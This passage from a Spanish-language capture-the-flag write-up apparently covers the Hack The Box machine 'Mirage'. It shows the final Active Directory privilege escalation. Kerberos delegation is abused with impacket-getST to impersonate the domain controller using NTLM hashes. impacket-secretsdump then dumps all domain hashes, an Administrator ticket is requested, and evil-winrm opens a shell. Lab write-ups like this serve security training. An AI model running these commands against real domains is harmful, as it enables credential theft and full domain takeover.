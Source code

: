 >>> Esto configura delegación basada en recursos desde Mirage-Service$ hacia dc01$, permitiendo a Mirage-Service$ hacerse pasar por otros usuarios al conectarse a dc01

<img width="1920" height="436" alt="image" src="https://github.com/user-attachments/assets/e048b86a-c2cd-404f-aea5-3d5b73ee8693" />

### ticket Kerberos (TGS)

ahora vamos a solicitar un ticket para  el servicio `CIFS` en `DC01.mirage.htb`,  como si fueramos `DC01$` {Suplantacion de Identidad}

```bash
export KRB5CCNAME=Mirage-Service\$.ccache
```

```bash
impacket-getST -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' -dc-ip 10.10.11.78  'mirage.htb/Mirage-Service$' -hashes :305806d84f7c1be93a07aaf40f0c7866
```

```bash
export KRB5CCNAME=dc01\$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache
```

<img width="1920" height="305" alt="image" src="https://github.com/user-attachments/assets/29e08bd7-457c-4fb2-9ada-65b0266d277e" />

## Extraccion de Hashes !Pwned!

ahora vamos a extraer todos los hashes del sistema para luego poder acceder como cualquier usuario

```bash
impacket-secretsdump -k -no-pass -dc-ip 10.10.11.78 dc01.mirage.htb
```
<img width="1920" height="959" alt="image" src="https://github.com/user-attachments/assets/08bfdd21-b9ac-40f9-b596-abd63bd5ce26" />

acceso al sistema!

Solicitamos un ticket kerberos para el administrador

```bash
impacket-getTGT mirage.htb/Administrator -hashes :7be6d4f3c2b9c0e3560f5a29eeb1afb3
```

cargamos el ticket en cache y accedemos via `WinRm`

```bash
export KRB5CCNAME=Administrator.ccache
```
```bash
evil-winrm -i DC01.mirage.htb -k -u 'Administrator' -r MIRAGE.HTB
```

<img width="1920" height="934" alt="image" src="https://github.com/user-attachments/assets/56072e6b-5659-4b16-8aa8-bd4e2af9b854" />


